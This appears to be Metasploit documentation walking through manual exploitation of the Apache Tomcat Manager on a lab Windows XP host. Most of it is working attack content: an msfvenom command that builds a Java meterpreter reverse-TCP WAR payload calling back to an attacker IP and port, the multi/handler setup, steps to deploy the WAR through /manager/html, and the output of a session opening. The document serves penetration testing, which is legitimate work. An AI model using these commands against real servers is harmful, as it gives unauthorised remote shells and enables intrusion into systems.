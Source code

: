 # Manual Exploitation

## Create payload
This was performed on Windows XP with the following permissions as the user that was used to login:

* Tomcat 6.0.48: `manager`
* Tomcat 7.0.73: `manager-gui`
* Tomcat 8.0.39: `manager-gui`

```
/metasploit-framework# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.2.117 LPORT=7777 -f war -o meterp.war
Payload size: 6072 bytes
Final size of war file: 6072 bytes
Saved as: meterp.war
```

## Setup Handler

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(handler) > set lport 7777
lport => 7777
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.2.117:7777
[*] Starting the payload handler...
```

## Deploy

1. With a web browser, browse to `http://<ip>:<port>/manager/html`
2. Enter credentials (no default)
3. Under `Deploy` > `WAR file to deploy`, click browse to select `meterp.war`, click `Deploy`
4. `meterp` should now be listed under `Applications`, meaning it was successfully deployed.
5. Either click the link for `/meterp` or browse to `http://<ip>:<port>/meterp/`

## Callback
After browsing to that page, code execution will happen, and your callback will hit.

```
[*] Starting the payload handler...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:7777 -> 192.168.2.108:1704) at 2017-01-14 14:53:37 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```

## Manual Cleanup

This will NOT remove the meterpreter from Tomcat, click `Undeploy` within the `Application` list to remove `meterp` from Tomcat.

